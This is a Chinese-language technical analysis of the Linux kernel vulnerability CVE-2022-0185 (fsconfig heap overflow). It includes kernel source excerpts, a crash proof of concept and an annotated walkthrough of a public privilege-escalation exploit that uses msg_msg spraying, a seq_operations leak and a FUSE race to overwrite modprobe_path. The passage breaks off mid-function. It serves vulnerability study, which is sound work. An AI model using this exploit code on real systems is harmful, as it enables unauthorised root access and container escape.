# CVE-2022-0185 linux 内核提权(逃逸)

[toc]

## 漏洞简介

漏洞编号: CVE-2022-0185

漏洞产品: linux kernel - fsconfig syscall

影响版本: linux kernel 5.1-rc1 ~ 

漏洞危害: 在`cap_sys_admin` 权限基础上进行提权或容器逃逸

源码获取: `apt source linux-image-unsigned-5.11.0-44-generic`

 或 https://mirrors.edge.kernel.org/pub/linux/kernel/v5.x/

## 环境搭建

### 调试环境

5.X 内核编译环境docker ：[chenaotian/kernelcompile](https://registry.hub.docker.com/r/chenaotian/kernelcompile) 

漏洞分析docker：[chenaotian/cve-2022-0185](https://registry.hub.docker.com/r/chenaotian/cve-2022-0185)

- 准备了两个内核一个发行版，一个自己编译版
  - 一个下载的发行版内核5.11.0-44 用于验证调试分析exp(发行版内核不会崩溃)
  - 一个编译的带符号的5.13 用于有符号调试poc

- 安装qemu、gdb、gdb-peda 等
- 漏洞相关在 `/root/cve-2022-0185`
  - `boot_exp.sh` 用于启动exp 验证调试环境，发行版5.11.0-44无符号内核
  - `boot_poc.sh` 用于启动poc 验证环境，可以跑崩内核，但无法跑exp，自编译5.13 有符号内核
  - `exp` 目录，[exp](https://github.com/Crusaders-of-Rust/CVE-2022-0185) 源码(作者: BitsByWill)，直接编译`exploit_fuse`即可。


### ubuntu20.04 验证环境

ubuntu 20.04虚拟机exp 运行环境，[exp](https://github.com/Crusaders-of-Rust/CVE-2022-0185)

准备ubuntu20.04 虚拟机，然后更换内核：

```shell
apt-get install linux-image-5.11.0-44-generic

grep menuentry /boot/grub/grub.cfg
vim /etc/default/grub
#修改 GRUB_DEFAULT 选项为上面结果中想要启动内核的下标
update-grub
#如果不生效的话则直接进入/boot 目录将之前的内核相关文件(带之前内核编号的文件)全部删掉，然后启动时候报找不到内核，然后手动选择内核启动也可以

#编译exp
make fuse
./exploit
```

提权效果



## 漏洞原理

漏洞发生的系统调用是`fsconfig` 中的 `FSCONFIG_SET_STRING` 操作选项，该系统调用用于对已经打开的文件系统上下文进行一些配置，**需要的前提条件是具备`CAP_SYS_ADMIN` cap权限**：

> `fsopen`的主要目的就是创建一个文件系统上下文，然后把它和一个文件描述符挂钩，返回文件描述符。`fsopen`后面就是`fsconfig`，从字面意思应该可以猜到，我们上面通过`fsopen`创建了一个文件系统上下文，下面的`fsconfig`可能就是用来配置文件系统上下文里的内容的。事实上`fsconfig`确实主要是做这个配置工作的，除了文件系统上下文，同时它还支持其它的工作。

### 漏洞发生点

首先漏洞出现在 `legacy_parse_param` 函数中：

linux-5.11\fs\fs_context.c : 502 : legacy_parse_param

```c
static int legacy_parse_param(struct fs_context *fc, struct fs_parameter *param)
{
	struct legacy_fs_context *ctx = fc->fs_private;
	unsigned int size = ctx->data_size;
	size_t len = 0;

	··· ···
	··· ···

	switch (param->type) {
	case fs_value_is_string:
		len = 1 + param->size;
		fallthrough;
	··· ···
	}

	if (len > PAGE_SIZE - 2 - size) //此处边界检查有问题
		return invalf(fc, "VFS: Legacy: Cumulative options too large");
	if (strchr(param->key, ',') ||
	    (param->type == fs_value_is_string &&
	     memchr(param->string, ',', param->size)))
		return invalf(fc, "VFS: Legacy: Option '%s' contained comma",
			      param->key);
	if (!ctx->legacy_data) {
		ctx->legacy_data = kmalloc(PAGE_SIZE, GFP_KERNEL); //在第一次时会分配一页大小
		if (!ctx->legacy_data)
			return -ENOMEM;
	}

	ctx->legacy_data[size++] = ',';
	len = strlen(param->key);
	memcpy(ctx->legacy_data + size, param->key, len);
	size += len;
	if (param->type == fs_value_is_string) {
		ctx->legacy_data[size++] = '=';
		memcpy(ctx->legacy_data + size, param->string, param->size); //拷贝，可能越界
		size += param->size;
	}
	ctx->legacy_data[size] = '\0';
	ctx->data_size = size;
	ctx->param_type = LEGACY_FS_INDIVIDUAL_PARAMS;
	return 0;
}
```

关键在于后面的`memcpy`，会将我们传入的`param->string` 拷贝到`ctx->legacy_data` 之中。而判断是否拷贝越界就在前面的`(len > PAGE_SIZE - 2 - size)` 判断，这里判断是有问题的，判断类型是`size_t` 也就是`unsigned int`，如果`size > PAGE_SIZE - 2` 则会发生整数溢出反转，造成`len < PAGE_SIZE - 2 - size` ，进而判断通过，后面拷贝的时候`size` 是大于 `PAGE_SIZE - 2`的，造成拷贝越界。

用到的一些数据结构：

```c
struct fs_context {
	const struct fs_context_operations *ops;
	struct mutex		uapi_mutex;	/* Userspace access mutex */
	struct file_system_type	*fs_type;
	void			*fs_private;	/* The filesystem's context */
	void			*sget_key;
	struct dentry		*root;		/* The root and superblock */
	struct user_namespace	*user_ns;	/* The user namespace for this mount */
	struct net		*net_ns;	/* The network namespace for this mount */
	const struct cred	*cred;		/* The mounter's credentials */
	struct p_log		log;		/* Logging buffer */
	const char		*source;	/* The source name (eg. dev path) */
	void			*security;	/* Linux S&M options */
	void			*s_fs_info;	/* Proposed s_fs_info */
	unsigned int		sb_flags;	/* Proposed superblock flags (SB_*) */
	unsigned int		sb_flags_mask;	/* Superblock flags that were changed */
	unsigned int		s_iflags;	/* OR'd with sb->s_iflags */
	unsigned int		lsm_flags;	/* Information flags from the fs to the LSM */
	enum fs_context_purpose	purpose:8;
	enum fs_context_phase	phase:8;	/* The phase the context is in */
	bool			need_free:1;	/* Need to call ops->free() */
	bool			global:1;	/* Goes into &init_user_ns */
	bool			oldapi:1;	/* Coming from mount(2) */
};

struct legacy_fs_context {
	char			*legacy_data;	/* Data page for legacy filesystems */
	size_t			data_size;
	enum legacy_fs_param	param_type;
};

struct fs_parameter {
	const char		*key;		/* Parameter name */
	enum fs_value_type	type:8;		/* The type of value here */
	union {
		char		*string;
		void		*blob;
		struct filename	*name;
		struct file	*file;
	};
	size_t	size;
	int	dirfd;
};
```

### 调用路径

下面分析一下函数调用栈，首先入口肯定是 `fsconfig` 系统调用：

linux-5.11\fs\fsopen.c : 314 : SYSCALL_DEFINE5(fsconfig,...

```c
SYSCALL_DEFINE5(fsconfig,
		int, fd,
		unsigned int, cmd,
		const char __user *, _key,
		const void __user *, _value,
		int, aux)
{
	struct fs_context *fc;
	struct fd f;
	int ret;
	int lookup_flags = 0;

	struct fs_parameter param = {
		.type	= fs_value_is_undefined,
	};

	··· ···
	f = fdget(fd);
	if (!f.file)
		return -EBADF;
	ret = -EINVAL;
	if (f.file->f_op != &fscontext_fops)
		goto out_f;

	fc = f.file->private_data; //设置fc
    
	··· ···
	switch (cmd) {
	··· ···
	case FSCONFIG_SET_STRING:
		param.type = fs_value_is_string;
        //初始化结构体中的联合体中的string成员为用户传入的字符串
		param.string = strndup_user(_value, 256); 
		if (IS_ERR(param.string)) {
			ret = PTR_ERR(param.string);
			goto out_key;
		}
		param.size = strlen(param.string);//设置size
		break;
	··· ···
    ··· ···
	}

	ret = mutex_lock_interruptible(&fc->uapi_mutex);
	if (ret == 0) {
		ret = vfs_fsconfig_locked(fc, cmd, &param);
		mutex_unlock(&fc->uapi_mutex);
	}

	··· ···
    ··· ···
}
```

在`fsconfig` 系统调用的入口中，先根据文件描述符`fd` 初始化文件系统上下文结构体`fc`，然后根据用户传入的参数设置`param` 结构体，该结构体变量就是后面在漏洞发生函数`legacy_parse_param` 中使用的`param`。接下来进入`vfs_fsconfig_locked`函数：

linux-5.11\fs\fsopen.c :  216 : vfs_fsconfig_locked

```c
static int vfs_fsconfig_locked(struct fs_context *fc, int cmd,
			       struct fs_parameter *param)
{
	struct super_block *sb;
	int ret;

	ret = finish_clean_context(fc);
	if (ret)
		return ret;
	switch (cmd) {
	··· ···
	default:
		if (fc->phase != FS_CONTEXT_CREATE_PARAMS &&
		    fc->phase != FS_CONTEXT_RECONF_PARAMS)
			return -EBUSY;

		return vfs_parse_fs_param(fc, param);
	}
	fc->phase = FS_CONTEXT_FAILED;
	return ret;
}
```

首先调用`finish_clean_context`函数，这里会调用`legacy_init_fs_context` 函数来注册回调函数表，该回调函数表中就包括漏洞所在函数`legacy_parse_param`。

linux-5.11\fs\fs_context.c

 ```c
 int finish_clean_context(struct fs_context *fc)
 {
     ··· ···
 		error = legacy_init_fs_context(fc);
 	··· ···
 }
 
 static int legacy_init_fs_context(struct fs_context *fc)
 {
 	fc->fs_private = kzalloc(sizeof(struct legacy_fs_context), GFP_KERNEL);
 	if (!fc->fs_private)
 		return -ENOMEM;
 	fc->ops = &legacy_fs_context_ops; //注册回调函数表
 	return 0;
 }
 
 const struct fs_context_operations legacy_fs_context_ops = {
 	.free			= legacy_fs_context_free,
 	.dup			= legacy_fs_context_dup,
 	.parse_param		= legacy_parse_param, //漏洞函数
 	.parse_monolithic	= legacy_parse_monolithic,
 	.get_tree		= legacy_get_tree,
 	.reconfigure		= legacy_reconfigure,
 };
 ```

注册结束之后，进入`vfs_parse_fs_param` 函数处理参数，这里会调用刚注册的回调函数，也就是漏洞函数。

linux-5.11\fs\fs_context.c : 98 : vfs_parse_fs_param

```c
int vfs_parse_fs_param(struct fs_context *fc, struct fs_parameter *param)
{
	··· ···

	if (fc->ops->parse_param) {
		ret = fc->ops->parse_param(fc, param); //漏洞所在函数
		if (ret != -ENOPARAM)
			return ret;
	}

	··· ···
    ··· ···
}
EXPORT_SYMBOL(vfs_parse_fs_param);
```

总体预览如下

- SYSCALL_DEFINE5(fsconfig,... : 系统调用入口
  - vfs_fsconfig_locked
    - finish_clean_context
      - legacy_init_fs_context : 注册回调函数表
    - vfs_parse_fs_param
      - legacy_parse_param : 漏洞

## 漏洞复现POC

漏洞复现poc：

```c
#define _GNU_SOURCE
#include <sys/syscall.h>
#include <stdio.h>
#include <stdlib.h>

#ifndef __NR_fsconfig
#define __NR_fsconfig 431
#endif
#ifndef __NR_fsopen
#define __NR_fsopen 430
#endif
#define FSCONFIG_SET_STRING 1
#define fsopen(name, flags) syscall(__NR_fsopen, name, flags)
#define fsconfig(fd, cmd, key, value, aux) syscall(__NR_fsconfig, fd, cmd, key, value, aux)

int main(void)
{
        char* val = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
        int fd = 0;
        fd = fsopen("ext4", 0);
        if (fd < 0) {
                puts("Opening");
                exit(-1);
        }
        for (int i = 0; i < 5000; i++) {
                fsconfig(fd, FSCONFIG_SET_STRING, "\x00", val, 0);
        }
        return 0;
}
```

静态编译之后打包到文件系统里用qemu 启动内核

```shell
cd ~/cve-2022-0185
gcc poc.c --static
cp a.out rootfs/a.out
cd rootfs
find . | cpio -o --format=newc > ../rootfs.img
cd ../
./boot_poc.sh
```

换另一个终端使用gdb 远程调试：

```shell
cd ~ 
gdb ./vmlinux
target remote :10086
directory /root/linux-5.13
b legacy_parse_param 
c
```

第一次调用的时候：

`legacy_data` 还没初始化：


会在后面调用`kmalloc` 初始化，之后会将输入字符串拷贝到`legacy_data` 中。函数返回时已经将第一个字符串拷贝过去了，会在前面加上`',='` ，长度为0x69。


由于我们是分多次调用fsconfig 来进行字符串拷贝。每次传入 0x67 个`'A'` ，加上`legacy_parse_param` 函数会在前面加上`',='` ，所以每次拷贝长度为0x69，拷贝39次之后`legacy_data` 的长度就会到达0xfff，拷贝39次之后，断住查看：


发现目前`legacy_data` 的`data_size` 已达到 0xfff


在`kmalloc` 申请的0x1000 大小内存空间也马上要达到极限。查看漏洞发生处：


0x68 小于反转后的 0xffff....，校验通过，拷贝之后直接越界，覆盖了后面的内存内容：


然后继续运行之后内核崩溃：


## 漏洞利用EXP

根据exp 作者的wp ：[CVE-2022-0185 - Winning a $31337 Bounty after Pwning Ubuntu and Escaping Google's KCTF Containers](https://www.willsroot.io/2022/01/cve-2022-0185.html)。他总共实现了两种利用方式，在ubuntu 20.04 内核版本 5.11.0-44 下的提权利用。和在谷歌KCTF 获得赏金的利用方式。这里主要分析在ubuntu 20.04 内核版本 5.11.0-44 下的利用。

### 前置知识

#### msg_msg 任意地址读写

该exp 作者曾将这种利用方法出成两道ctf 题目。corCTF 2021 中的fire_of_salvation 和 wall_of_perdition 。通过溢出或者UAF操作复写消息头结构体`msg_msg` 来完成任意地址读写。这里不对该利用方法做特别详细的分析，只分析题目中用到的部分。

`msgsnd` 和 `msgrcv` 是内核提供的用来进程见通信的收发消息的函数。大体逻辑就是将消息发送到内核，内核维护对应的消息队列，接受消息的时候从消息队列中取出。

`msgsnd` 源码定义，主要功能由do_msgsnd完成：

linux-hwe-5.11_5.11.0.orig\linux-5.11\ipc\msg.c : 840

```c
static long do_msgsnd(int msqid, long mtype, void __user *mtext,
		size_t msgsz, int msgflg)
{
	struct msg_queue *msq;
	struct msg_msg *msg;
	··· ···
    if (msgsz > ns->msg_ctlmax || (long) msgsz < 0 || msqid < 0)
		return -EINVAL; //检查长度，默认最长8192(可以调试断住看一下)
    ··· ···
    //主要有用的功能在这里
	msg = load_msg(mtext, msgsz); //调用load_msg 分配内存并从用户空间将消息拷贝过来。
    ··· ···
	msg->m_type = mtype;
	msg->m_ts = msgsz;

	··· ···
    //后面代码将msg 添加到消息队列。    
    ··· ···
}

long ksys_msgsnd(int msqid, struct msgbuf __user *msgp, size_t msgsz,
		 int msgflg)
{
	··· ···
	return do_msgsnd(msqid, mtype, msgp->mtext, msgsz, msgflg);
}

SYSCALL_DEFINE4(msgsnd, int, msqid, struct msgbuf __user *, msgp, size_t, msgsz,
		int, msgflg)
{
	return ksys_msgsnd(msqid, msgp, msgsz, msgflg);
}
```

`do_msgsnd` 允许的消息最大长度为8192：


然后需要重点分析一下 `load_msg` 函数，由于在`load_msg` 函数中使用了`alloc_msg` 函数来申请内存空间，并且组织消息结构。这里先分析一下`alloc_msg` 函数：

linux-5.11\ipc\msgutil.c : 46 : alloc_msg

```c
static struct msg_msg *alloc_msg(size_t len)
{
	struct msg_msg *msg;
	struct msg_msgseg **pseg;
	size_t alen;
    //#define DATALEN_MSG	((size_t)PAGE_SIZE-sizeof(struct msg_msg))
	alen = min(len, DATALEN_MSG); 
	msg = kmalloc(sizeof(*msg) + alen, GFP_KERNEL_ACCOUNT);
	··· ···
    ··· ···
	while (len > 0) {
		struct msg_msgseg *seg;

		cond_resched();
        //#define DATALEN_SEG	((size_t)PAGE_SIZE-sizeof(struct msg_msgseg))
		alen = min(len, DATALEN_SEG);
		seg = kmalloc(sizeof(*seg) + alen, GFP_KERNEL_ACCOUNT);
		if (seg == NULL)
			goto out_err;
		*pseg = seg;
		seg->next = NULL;
		pseg = &seg->next;
		len -= alen;
	}

	··· ···
}
```

这里根据消息的长度将消息分段，**如果消息长度+消息头长度 大于一页(4k)，则会被分段存储**，第一段是消息头+消息段1，消息头中有指针指向第二段；第二段是消息段头+消息段2.... 根据上文提到的消息长度最大为8192，则消息最多分为3段。而每一段最大长度为一页(4k)，最少也要包括消息头长度为0x30，所以我们能控制的堆分配大小范围为`kmalloc-64`~`kmalloc-4k` 。其中，消息头结构体和消息段头结构体如下：

```c
struct msg_msg {//消息头结构体
	struct list_head m_list; //两个指针
	long m_type;
	size_t m_ts;		/* message text size */
	struct msg_msgseg *next;
	void *security;
	/* the actual message follows immediately */
};
struct msg_msgseg {
	struct msg_msgseg *next;
	/* the next part of the message follows immediately */
};
```

所以消息组成的结构类似：



消息存在消息队列中，由双链表管理，消息本身还是分段存储，由单链表链接。每段整体最长为一页(4k)。接下来分析`do_msgsnd` 函数：

linux-5.11\ipc\msgutil.c : 84 : load_msg

```c
struct msg_msg *load_msg(const void __user *src, size_t len)
{
	struct msg_msg *msg;
	struct msg_msgseg *seg;
	int err = -EFAULT;
	size_t alen;

	msg = alloc_msg(len); //根据消息长度生成上图那种结构体
	if (msg == NULL)
		return ERR_PTR(-ENOMEM);

	alen = min(len, DATALEN_MSG);     //根据分段情况从用户空间分段拷贝，这里拷贝第一段
	if (copy_from_user(msg + 1, src, alen))
		goto out_err;

	for (seg = msg->next; seg != NULL; seg = seg->next) { //按顺序拷贝剩下的部分
		len -= alen;
		src = (char __user *)src + alen;
		alen = min(len, DATALEN_SEG);
		if (copy_from_user(seg + 1, src, alen))
			goto out_err;
	}
    ··· ···
    ··· ···
}
```

后面的部分就直接根据消息的分段情况，从用户空间依次拷贝即可。

接下来查看消息接收函数`msgrcv`，同理主要逻辑在`do_msgrcv` 函数，这里提一个小细节，不详细分析：

linux-5.11\ipc\msg.c : 1090 : do_msgrcv

```c
static long do_msgrcv(int msqid, void __user *buf, size_t bufsz, long msgtyp, int msgflg, long (*msg_handler)(void __user *, struct msg_msg *, size_t))
{
	··· ···
	if (msgflg & MSG_COPY) {
		if ((msgflg & MSG_EXCEPT) || !(msgflg & IPC_NOWAIT))
			return -EINVAL;
		copy = prepare_copy(buf, min_t(size_t, bufsz, ns->msg_ctlmax));
		if (IS_ERR(copy)) //搜索要发送的消息之前，准备一个消息备份(申请内存)，用来存放消息
			return PTR_ERR(copy);
	}
	··· ···
	for (;;) {
		··· ···
		msg = find_msg(msq, &msgtyp, mode);
		if (!IS_ERR(msg)) {
			··· ···
			if (msgflg & MSG_COPY) {
				msg = copy_msg(msg, copy); //找到之后拷贝到消息备份中
				goto out_unlock0;
			}
			··· ···
		}        
        ··· ···
	}
    ··· ···
	bufsz = msg_handler(buf, msg, bufsz); //将消息备份发送到用户
	free_msg(msg); //释放消息备份

	return bufsz;
}
```

在`msgflg`存在 `MSG_EXCEPT` 标志位的时候(默认配置，编译选项`CONFIG_CHECKPOINT_RESTORE`)，会使用备份消息发送。具体逻辑就是，先申请一个消息结构作为消息备份，找到消息之后先拷贝到消息备份中，再发送到用户空间，之后释放消息备份。**这样原始消息并不会被从队列中unlink**，我们要的就是"不会将原始消息从队列中`unlink` 这个动作"。因为有时我们溢出会覆盖消息头部的双向链表指针，这样`unlink` 的时候就会崩溃，这不是希望看到的结果。

知识点差不多就这么多，涉及到的利用手法就是：

- 使用`msgsnd` 函数可以进行`kmalloc-64`~`kmalloc-4k` 范围内的对喷操作(传统手艺)
- 如果能覆盖`msg_msg` 头部的`m_ts` 成员，那么就会改变消息长度，造成越界读取(新手艺)
- 如果能**在load_msg过程中**覆盖`msg_msg` 头部的`struct msg_msgseg *next` 成员，那么就可以造成任意地址读写，这通常要利用`userfaulted`条件竞争，但最新的内核已经无法用户态调用`userfaulted`了。这里采用新方法。

#### userfaulted的替代

根据上面分析的`load_msg`函数，在`alloc_msg` 申请完消息的内存之后会从用户空间拷贝消息。如果消息是比较长的分段消息，那么需要分段拷贝。如果这里能做到在拷贝第一段的时候发生缺页中断，让拷贝操作挂起等待异常处理完成，在这时候利用溢出覆盖`msg_msg` 中的`msg_msgseg *next` 指针，等异常处理完毕回来继续拷贝第二段的时候就变成了向我们指定的地址覆盖任意内容了(任意地址写)。

通常这需要注册用户态`page fault` 处理函数，但新版本无法在非特权情况下调用`userfaulted`系统调用了。这里提供了一个新方法，那就是`fuse` 用户态文件系统，可以使用`fuse` 注册一个用户态文件系统，拥有自己的`read`、`write` 等函数，那么发生缺页中断的时候，还是会回到用户态来处理中断。

值得一提的是，fuse 本身没有静态编译的库。 BitsByWill 和 D3v17 将其进行了一些裁剪，裁剪掉dlopen 等一些东西，只做了一个可以静态编译的libfuse3.a。快说，谢谢你 BitsByWill and D3v17。

[参考](https://static.sched.com/hosted_files/lsseu2019/04/LSSEU2019%20-%20Exploiting%20race%20conditions%20on%20Linux.pdf)

#### 泄露地址

这里也是kernel pwn的常规操作了，使用 `seq_operations` 结构体来泄露地址，里面全是函数指针：

```c
struct seq_operations {
	void * (*start) (struct seq_file *m, loff_t *pos);
	void (*stop) (struct seq_file *m, void *v);
	void * (*next) (struct seq_file *m, void *v, loff_t *pos);
	int (*show) (struct seq_file *m, void *v);
};
```

具体就是打开`/proc/self/stat` 的时候，会调用 `single_open` 函数，初始化`seq_operations` 结构：

```c
int single_open(struct file *file, int (*show)(struct seq_file *, void *),
		void *data)
{
	struct seq_operations *op = kmalloc(sizeof(*op), GFP_KERNEL_ACCOUNT);
	int res = -ENOMEM;

	if (op) {
		op->start = single_start;
		op->next = single_next;
		op->stop = single_stop;
		op->show = show;
		res = seq_open(file, op);
··· ···
}
```

将`single_open` 结构中的函数指针全部初始化成内核函数，只要泄露任意一个就可以泄露内核基址。

#### 权限提升

kernel pwn传统手艺`modprobe_path`，内核中的一个字符串，指向的是一个路径，默认/sbin/modprobe

```c
char modprobe_path[KMOD_PATH_LEN] = "/sbin/modprobe";
```

当运行一个无法识别格式的文件的时候就会去`modprobe_path` 指向的文件运行它，这个是内核去运行的，所以是root权限，一般**如果可以修改该字符串，则认为提权成功。**

### exp分析(原版)

这里没编译出能满足exp 运行的环境(我太菜了)，直接将`apt` 安装的5.11.0-44-generic 的vmlinuz 拷贝出来用的，qemu启动之后确实能调。可能是由于`cap` 部分或`fuse` 没配置好，导致如果用非root用户运行exp 还是有一些问题，所以这里qemu 调试的时候就使用root 用户跑exp，毕竟exp 是修改内核中`modprobe_path`。

要获取exp 直接访问[作者github](https://github.com/Crusaders-of-Rust/CVE-2022-0185)，在ubuntu20 环境下可以编译，我这里只做了分析、调试和验证。

exp结构：

CVE-2022-0185-master\exploit_fuse.c : 258 : main

```c
int main(int argc, char **argv, char **envp) 
{
    ··· ···

    if (!fork()) //子进程注册一个fuse 文件系统，用于提供userfaulted
    {
        fuse_main(sizeof(fargs_evil)/sizeof(char *) -1 , fargs_evil, &evil_ops, NULL);
    }

    sleep(1);
    spray_4k(30);//堆将现有的free kmalloc消耗掉
    uint64_t kbase = 0;
    while(!kbase)  //泄露kernel 基址部分
    {
        kbase = do_leak();
    }
    ··· ···
    
    spray_4k(30);//堆将现有的free kmalloc消耗掉
    while (1) 
    {
        do_win(); //任意地址写修改modprobe_path完成利用部分
        ··· ···
    }
    
    ··· ···
}
```

exp主要分文两部分，分别是泄露和任意地址写。

#### 泄露kernel 基地址

我觉得该exp 的泄露部分用的非常巧妙，先溢出覆盖未被使用的部分，然后申请需要溢出覆盖的结构体这样不会破坏目标意外的部分，然后继续溢出精准覆盖目标。

主要是`do_leak`函数

CVE-2022-0185-master\exploit_fuse.c : 33 : do_leak

```c
uint64_t do_leak () 
{
    uint64_t kbase = 0;
    char pat[0x1000] = {0};
    char buffer[0x2000] = {0}, recieved[0x2000] = {0};
    int targets[0x10] = {0};
    msg *message = (msg *)buffer;
    int size = 0x1018;

    // spray msg_msg
    for (int i = 0; i < 8; i++)   //[1]先申请8个独立的消息队列，每个里面存放一条消息
    {
        memset(buffer, 0x41+i, sizeof(buffer));
        targets[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
        send_msg(targets[i], message, size - 0x30, 0); 
    }/*消息大小 0x1018-0x30,实际会分成两段
      *第一段 消息头msg_msg 0x30 和消息0xfd 共0x1000 kmalloc-4k
      *第二段 消息段头 msg_msgseg 0x8 和消息0x18 共0x20 kmalloc-32*/

    memset(pat, 0x42, sizeof(pat));
    pat[sizeof(pat)-1] = '\x00';
    puts("[*] Opening ext4 filesystem");

    fd = fsopen("ext4", 0);
    if (fd < 0) 
    {
            puts("fsopen: Remember to unshare");
            exit(-1);
    }

    strcpy(pat, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    for (int i = 0; i < 117; i++)  
    {  //[2]溢出准备，多次调用fsconfig 将legacy_data 长度填充到4095准备溢出
        fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);
    }
    
    // overflow, hopefully causes an OOB read on a potential msg_msg object below
    puts("[*] Overflowing...");
    pat[21] = '\x00';
    char evil[] = "\x60\x10";
    fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);
    /*[3]溢出部分，输入长度21,由于每次溢出会自动加上",="所以实际23，再加上之前长度4095总共溢出22
     *这里正常情况发生溢出溢出的是还没被使用(分配)过的内存*/

    // spray more msg_msg
    for (int i = 8; i < 0x10; i++) 
    {//[4]继续msgsnd，申请msg_msg 结构体，大概率申请到将legacy_data后面的地方
        memset(buffer, 0x41+i, sizeof(buffer));
        targets[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
        send_msg(targets[i], message, size - 0x30, 0);
    }//msg_msg 头会覆盖刚刚溢出的内容

    fsconfig(fd, FSCONFIG_SET_STRING, "\x00", evil, 0);
    /*[5]继续溢出，legacy_data+size 的指针指向的位置正好在msg_msg结构体的中间，m_ts 位之前
     *刚好覆盖m_ts，修改msg 的大小*/

    puts("[*] Done heap overflow");
    puts("[*] Spraying kmalloc-32");
    for (int i = 0; i < 100; i++) 
    {//[6]上面提到过的泄露地址用结构体,多次打开stat，喷射多个0x20的seq_operations结构体
        open("/proc/self/stat", O_RDONLY);
    }//大概率会喷射到消息第二段0x20(kmalloc-32) 的后面

    size = 0x1060;//接受消息的长度
    puts("[*] Attempting to recieve corrupted size and leak data");

    // go through all targets qids and check if we hopefully get a leak
    for (int j = 0; j < 0x10; j++) 
    {//[7]接受消息，某一个消息的长度被改大，则会越界读到后面的seq_operations结构体
        get_msg(targets[j], recieved, size, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);
        kbase = do_check_leak(recieved);//泄露成功
        if (kbase) 
        {
            close(fd);
            return kbase;
        }
    }

    puts("[X] No leaks, trying again");
    return 0;
}
```

1. 这里会在溢出操作之前和之后分别用`msgsnd` 布局一部分`kmalloc` 堆块，具体消息长度是`0x1018-0x30 = 0xfe8`。那么根据消息结构，会被分成两段0xfd和0x18：

   - 第一段 消息头`msg_msg` 0x30 和消息0xfd 共0x1000 属于`kmalloc-4k`
   - 第二段 消息段头`msg_msgseg` 0x8 和消息0x18 共0x20 属于`kmalloc-32`

2. 准备溢出，使用`fsconfig` 将`legacy_data` (申请长度4096 属于`kmalloc-4k`)长度填充到4095，这里使用33个'A'，实际每次还会加上",="两个字符，所以实际每次填充35个字符填充117次正好4095。

   页起始地址与页末尾：

   

3. 再填充21个字符，加上`",="`共23个字符，这里就发生了溢出，由于之前填充到了4095，所以实际溢出22个字符，也就是0x16，**但这里正常情况发生溢出溢出的是还没被使用(分配)过的内存。**

   

4. 继续`msgsnd`，申请`msg_msg` 结构体(会分成两段)，由于第一段msg 长度为`kmalloc-4k`，所以大概率申请到将`legacy_data` 后面的地方，会覆盖刚刚溢出的部分，不过无所谓。

   

5. 继续调用`fsconfig` 进行溢出，这就是为什么要分两次溢出的原因，**刚刚那次溢出22个字符的目的只是为了将指针移动到`msg_msg` 头中`m_ts`(代表msg 的大小)字段的前面。这时再溢出由于会在前面添加`",="`两个字符，那么正好可以覆盖`msg_msg` 头中的`m_ts`修改msg 的大小** 。

   

6. 喷射一堆 `seq_operations` 结构体，由于属于`kmalloc-32 `，大概率会落在消息第二段后面

   

7. 这时接收消息，其中一个消息被我们溢出篡改了size，那么读取就会发送越界，读到后面的`seq_operations `结构体完成泄露。

步骤2到步骤6堆内存变化如图所示，红色剪头是`fsconfig` 中`legacy_data + size` 指针会指向的位置：



#### 任意地址写完成提权

这一部分就比较简单了，上面提到过，让`msgsnd` 中的`copy_from_user` 发生缺页中断，到我们注册的用户文件系统`fuse` 的处理函数中处理中断，在这期间使用`fsconfig` 溢出覆盖消息的第二段。

```c
void do_win() 
{
    int size = 0x1000;
    char buffer[0x2000] = {0};
    char pat[0x1000] = {0};
    msg* message = (msg*)buffer;
    memset(buffer, 0x44, sizeof(buffer));
    //[1]在0x1337000 mmap 一页
    void *evil_page = mmap((void *)0x1337000, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, 0, 0);
    uint64_t race_page = 0x1338000;
    msg *rooter = (msg *)(race_page-0x8); //后续关键消息开始设置在刚mmap 的页末尾
    rooter->mtype = 1;
    size = 0x1010;

    int target = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
    send_msg(target, message, size - 0x30, 0); 
    //[2]设定消息长度为0xfe的消息，会分成两段

    puts("[*] Opening ext4 filesystem");
    fd = fsopen("ext4", 0);
    if (fd < 0) 
    {
            puts("Opening");
            exit(-1);
    }
    puts("[*] Overflowing...");
    strcpy(pat, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    for (int i = 0; i < 117; i++) //[3]溢出前填充工作
    {
        fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);
    }
    
    puts("[*] Prepaing fault handlers via FUSE");
    int evil_fd = open("evil/evil", O_RDWR);
    if (evil_fd < 0)
    {
        perror("evil fd failed");
        exit(-1);
    }
    //[4]使用fuse 文件系统mmap 一页，在0x1338000，也就是上面mmap 的后面
    if ((mmap((void *)0x1338000, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_FIXED, evil_fd, 0)) != (void *)0x1338000)
    {
        perror("mmap fail fuse 1");
        exit(-1);
    }

    pthread_t thread;
    int race = pthread_create(&thread, NULL, arb_write, NULL);
    if(race != 0)
    {
        perror("can't setup threads for race");
    }
    //[5]发送消息，消息开头在第一个mmap 页的末尾，会触发page fault，等待中断处理
    send_msg(target, rooter, size - 0x30, 0);
    //[6]开启线程，线程执行溢出操作，在等待中断处理的过程中覆盖msg_msg 的mst_msgseg *next指针
    pthread_join(thread, NULL);
    munmap((void *)0x1337000, 0x1000);
    munmap((void *)0x1338000, 0x1000);
    close(evil_fd);
    close(fd);
}

void *arb_write(void *args)
{//[6]负责溢出的线程
    uint64_t goal = modprobe_path - 8;
    char pat[0x1000] = {0};
    memset(pat, 0x41, 29);
    char evil[0x20];
    memcpy(evil, (void *)&goal, 8);
    fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);
    //将msg_msg 中的msg_msgseg * next指针覆盖为modprobe_path - 8
    fsconfig(fd, FSCONFIG_SET_STRING, "\x00", evil, 0);
    puts("[*] Done heap overflow");
    write(fuse_pipes[1], "A", 1);
}

int evil_read(const char *path, char *buf, size_t size, off_t offset,
